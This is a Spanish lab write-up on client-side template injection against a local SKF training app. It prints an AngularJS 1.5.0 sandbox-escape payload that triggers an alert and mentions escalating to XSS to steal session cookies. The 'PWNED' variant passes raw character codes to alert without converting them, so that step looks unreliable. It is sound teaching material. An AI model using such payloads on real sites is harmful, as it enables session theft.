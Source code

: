 ```yaml
---
title: "[Lab] Client-Side Template Injection (CSTI)"
date: 2023-12-25
categories: [OWASPTop10]
tags: [owasptop10, hacking, python]
---
```




# Client-Side Template Injection (CSTI)



## Requerimientos

```bash
apt install python2
wget https://bootstrap.pypa.io/pip/2.7/get-pip.py
python2 get-pip.py
rm get-pip.py
```

## Instalación

```bash
git clone https://github.com/blabla1337/skf-labs
pip2 install -r requirements.txt
python2 CSTI.py
```

Esto lo que hará es correr un servidor web de forma local sin contenedores:

![Untitled](../assets/OWASP-TOP-10/Client-Side Template Injection CSTI/Untitled.png)

La web se ve de esta forma:

![Untitled](../assets/OWASP-TOP-10/Client-Side Template Injection CSTI/Untitled 1.png)

Este lab sirve para entender el concepto de cómo funciona un CSTI más que para un escenario real.

Al ingresar un input, por ejemplo, la palabra “Hola”, esta se vería reflejada en el servidor:

![Untitled](../assets/OWASP-TOP-10/Client-Side Template Injection CSTI/Untitled 2.png)

A comparación con el SSTI, la idea es la misma, inyectar un input para verlo reflejado en el servidor pero la diferencia radica en que la inyección en este caso se ve reflejada o la ejecuta el navegador del cliente y no el servidor en sí por lo que aquí la ejecución de comandos para ver archivos internos del servidor no aplican pero la idea de este ataque es derivarlo a un XSS para obtener algún tipo de información valiosa del usuario como cookies de sesión entre otras cosas.

En este caso se puede utilizar el repositorio de PayloadAllTheThings, en este caso se puede ver en la web que se está utilizando una versión en particular de Angularjs, la 1.5.0 por lo que se buscarán payloads para esa versión:

![Untitled](../assets/OWASP-TOP-10/Client-Side Template Injection CSTI/Untitled 3.png)

En este caso, el payload que se utilizará es el siguiente:

```bash
{{
    c=''.sub.call;b=''.sub.bind;a=''.sub.apply;
    c.$apply=$apply;c.$eval=b;op=$root.$$phase;
    $root.$$phase=null;od=$root.$digest;$root.$digest=({}).toString;
    C=c.$apply(c);$root.$$phase=op;$root.$digest=od;
    B=C(b,c,b);$evalAsync("
    astNode=pop();astNode.type='UnaryExpression';
    astNode.operator='(window.X?void0:(window.X=true,alert(1)))+';
    astNode.argument={type:'Identifier',name:'foo'};
    ");
    m1=B($$asyncQueue.pop().expression,null,$root);
    m2=B(C,null,m1);[].push.apply=m2;a=''.sub;
    $eval('a(b.c)');[].push.apply=a;
}}
```

Este payload, está haciendo un “alert(1) de forma que cuando esto se ingrese en la web, mostrará una alerta con valor 1”:

![Untitled](../assets/OWASP-TOP-10/Client-Side Template Injection CSTI/Untitled 4.png)

También se puede representar strings por ejemplo la palabra “PWNED”, en este caso se pasará el string a decimal para que no haya problemas de interpretación y para esto se utilizará python:

```bash
sentence = "PWNED"
for character in sentence:
	print(ord(character))
```

*ord() permite pasar los caracteres a decimal.*

![Untitled](../assets/OWASP-TOP-10/Client-Side Template Injection CSTI/Untitled 5.png)

Luego estos caracteres de pueden tratar para representarlos en una misma línea:

![Untitled](../assets/OWASP-TOP-10/Client-Side Template Injection CSTI/Untitled 6.png)

Ahora esto se puede incluir en el payload

```bash
{{
    c=''.sub.call;b=''.sub.bind;a=''.sub.apply;
    c.$apply=$apply;c.$eval=b;op=$root.$$phase;
    $root.$$phase=null;od=$root.$digest;$root.$digest=({}).toString;
    C=c.$apply(c);$root.$$phase=op;$root.$digest=od;
    B=C(b,c,b);$evalAsync("
    astNode=pop();astNode.type='UnaryExpression';
    astNode.operator='(window.X?void0:(window.X=true,alert(80,87,78,69,68)))+';
    astNode.argument={type:'Identifier',name:'foo'};
    ");
    m1=B($$asyncQueue.pop().expression,null,$root);
    m2=B(C,null,m1);[].push.apply=m2;a=''.sub;
    $eval('a(b.c)');[].push.apply=a;
}}
```

![Untitled](../assets/OWASP-TOP-10/Client-Side Template Injection CSTI/Untitled 7.png)
